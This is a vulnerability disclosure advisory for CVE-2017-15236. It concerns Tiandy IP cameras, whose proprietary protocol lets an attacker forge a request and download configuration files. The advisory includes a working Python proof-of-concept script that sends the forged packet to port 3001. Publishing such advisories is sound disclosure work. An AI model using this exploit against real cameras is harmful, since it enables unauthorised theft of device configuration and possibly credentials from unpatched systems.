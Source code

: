 ## Vulnerability Summary
The following advisory describes sensitive information Disclosure found in Tiandy IP cameras version 5.56.17.120

Tianjin Tiandy Digital Technology Co., Ltd ( Tiandy Tech) is “one of top 10 leading CCTV manufacturer in China and a global supplier of advanced video surveillance solutions.”

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
We tried to contact Tiandy starting from August 16 2017, repeated attempts to establish contact went unanswered. At this time there is no solution or workaround for this vulnerability.

CVE: CVE-2017-15236

## Vulnerability details
Tiandy uses a proprietary protocol, a flaw in the protocol allows an attacker to forge a request that will return configuration settings of the Tiandy IP camera.

## Proof of Concept
By sending the following request, an attacker can download the following files:

``
config_server.ini
extendword.txt
config_ptz.dat
config_right.dat
config_dg.dat
config_burn.dat
```

## POC.PY

```
import socket
ip = '192.168.1.1'
data1 = '\x74\x1f\x4a\x84\xc8\xa8\xe4\xb3\x18\x7f\xd2\x21\x08\x00\x45\x00\x00\xcc\x3e\x9a\x40\x00\x40\x06\xd4\x13\xac\x10\x65\x75\x6e\x31\xa7\xc7\x43\x5b\x0b\xb9\x85\xbc\x1d\xf0\x5b\x3e\xe8\x32\x50' +
'\x18\x7f\xa4\xc6\xcf\x00\x00\xf1\xf5\xea\xf5\x74\x00\xa4\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00' + ip +
'\x09\x50\x52\x4f\x58\x59\x09\x43\x4d\x44\x09\x44\x48\x09\x43\x46\x47\x46\x49\x4c\x45\x09\x44\x4f\x57\x4e\x4c\x4f\x41\x44\x09\x36\x09\x63\x6f\x6e\x66\x69\x67\x5f\x73\x65\x72\x76\x65\x72\x2e' +
'\x69\x6e\x69\x09\x65\x78\x74\x65\x6e\x64\x77\x6f\x72\x64\x2e\x74\x78\x74\x09\x63\x6f\x6e\x66\x69\x67\x5f\x70\x74\x7a\x2e\x64\x61\x74\x09\x63\x6f\x6e\x66\x69\x67\x5f\x72\x69\x67\x68\x74\x2e' +
'\x64\x61\x74\x09\x63\x6f\x6e\x66\x69\x67\x5f\x64\x67\x2e\x64\x61\x74\x09\x63\x6f\x6e\x66\x69\x67\x5f\x62\x75\x72\x6e\x2e\x64\x61\x74\x0a\x0a\x0a'

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((ip,3001))
s.send(data1)
while True:
  buf = s.recv(64)
  if not len(buf):
    break
  print buf
```
